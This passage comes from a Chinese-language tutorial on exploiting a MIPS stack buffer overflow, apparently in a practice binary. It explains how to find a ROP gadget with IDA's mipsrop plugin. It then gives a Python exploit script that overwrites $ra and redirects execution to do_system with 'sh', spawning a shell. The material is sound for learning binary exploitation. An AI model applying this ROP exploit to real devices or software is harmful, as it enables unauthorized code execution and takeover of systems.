3. 确定攻击途径

   - 命令执行
   - shellcode

   针对这个例子，可以利用do_system函数。

   ```c
   void do_system(int code, char *cmd){
   	char buf[255];
   	// sleep(1);
   	system(cmd);
   }
   ```

   虽然程序使用`do_system`执行了`ls -l`的命令，但是可以利用这个函数，通过替换其参数来达到执行其他命令。

   既然是要替换参数，那么需要对`$a0`和`$a1`两个寄存器的值进行构造，这里只需要控制寄存器`$a1`即可，因为这个寄存器存放的是命令的字符串地址，只需要修改这个地址为指定的字符串的地址，就可以执行指定的命令。

   这里使用IDA脚本插件`mipsrop.py`来搜索合适的ROP gadget；

   通过工具栏的`Search`->`mips rop gadgets`并在输入框中输入指令即可，详细的指令通过`mipsrop.help()`查看；

   

​	如图，通过mipsrop.stackfinders()即可查找到如上的gadget，该gadget设置了`$a1`的值为`$sp+0x58-0x40`的值，最终会跳转到`$sp+0x58-0x4`地址处，因此只需让`$sp+0x58-0x40`的值为命令字符串，而`$sp+0x58-0x4`的值为`do_system`函数的地址即可进行函数的调用；

4. 构造exp

   通过上面的指引，构造exp；

   1. 已知需要填充的数据长度为431个byte，才能控制$ra。
   
   2. 之后让程序跳转到gadget上，此时会将`$sp+0x58-0x40`的值，即`$sp+0x18`的值赋值给`$a1`寄存器，作为cmd参数，因此需要提前将该地址覆盖为命令字符串的地址。
   3. 最后程序会跳转到`$sp+0x58-0x4`，即`$sp+0x54`，因此需要将这个地址上的内容覆盖为`do_system`函数的地址。
   
   于是，有如下的exp:
   
   ```python
   #coding:utf-8
   # exp.py
   import struct
   print("[*] creating shellcode ...")
   
   cmd = "sh"
   cmd += "\x00" * (4 - (len(cmd) % 4))
   
   # shellcode
   shellcode  = 'a' * 431 # (padding)
   shellcode += struct.pack(">L", 0x00401FD4) # jump to gadget, stack is 0x76FFEE6C($ra)
   shellcode += 'b' * 0x18 # $sp+0x18=0x76FFEE88, 0x76FFEE88-0x76FFEE6C=0x1C, 0x1C-0x4=0x18(padding)
   shellcode += cmd # (cmd, $a1)
   shellcode += 'c' * (0x38-len(cmd))# $sp+0x54=0x76FFEEC4, 0x76FFEEC4-0x76FFEE88=0x3C, 0x3C-len(cmd) => (padding)
   shellcode += struct.pack(">L", 0x00400311) # jump to do_system, 0x00400310
   shellcode += 'dddd'
   
   print("[+] shellcode is created successfully!")
   
   print("[*] writing file...")
   
   fd = open("passwd", "w")
   fd.write(shellcode)
   fd.close()
   
   print("[+] file has been written!")
   ```
   
   可以看到$ra即将恢复的值被覆盖为gadget的地址，由此完成了对`$ra`的控制，即程序流的控制。
   
   
   
   同时可以看到对应的位置被覆盖了`sh\x00\x00`，以及`do_system`的地址。
   
   
   
   接下来看看程序的执行。
   
   
